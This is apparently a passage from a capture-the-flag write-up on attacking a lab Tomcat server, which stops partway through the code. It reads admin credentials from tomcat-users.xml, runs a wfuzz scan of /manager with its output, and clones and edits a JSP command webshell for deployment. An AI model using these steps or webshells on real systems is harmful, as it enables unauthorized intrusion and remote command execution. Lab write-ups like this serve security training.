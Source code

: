 ```
You are not authorized to view this page. If you have not changed any configuration files, please examine the file conf/tomcat-users.xml in your installation. That file must contain the credentials to let you use this webapp.

```
Searching `tomcat9` directories we find this `usr/share/tomcat9/etc/tomcat-users.xml` now reading that gave us things
```
<role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>

```
>tomcat
>$3cureP4s5w0rd123!

Using this credentials we can't access that same page.
So let's search for directories in `/manager` directory.
```bash
wfuzz -c -w /usr/share/wordlists/dirb/common.txt --hc 404 http://10.10.10.194:8080/manager/FUZZ


000000001:   302        0 L      0 W        0 Ch        "http://10.10.10.194:8080
                                                        /manager/"
000001939:   401        63 L     291 W      2499 Ch     "html"
000001991:   302        0 L      0 W        0 Ch        "images"
000003850:   401        63 L     291 W      2499 Ch     "status"
000004024:   401        63 L     291 W      2499 Ch     "text"
```
Nothing unusual except `text` searching that shows that commands can be executed from this directory.
```
The following commands are supported:

  list
  add
  remove
  start
  stop
  persist
  deploy
```
we will need to deploy an `cmd` to `tomcat9` which should be `.jsp`.
```bash
git clone https://github.com/tennc/webshell.git
cd /webshell/jsp
```
We'll use `cmdjsp.jsp` but just know you have to remove `cmd.exe /C` because it's a Linux machine, change the `METHOD` to `POST`, and probably the name if you want.
should look like this
```java
// note that linux = cmd and windows = "cmd.exe /c + cmd"

<FORM METHOD=POST ACTION='cmdjsp.jsp'>
<INPUT name='help' type=text>
<INPUT type=submit value='Run'>
</FORM>

<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("help");
   String output = "";

   if(cmd != null) {
```
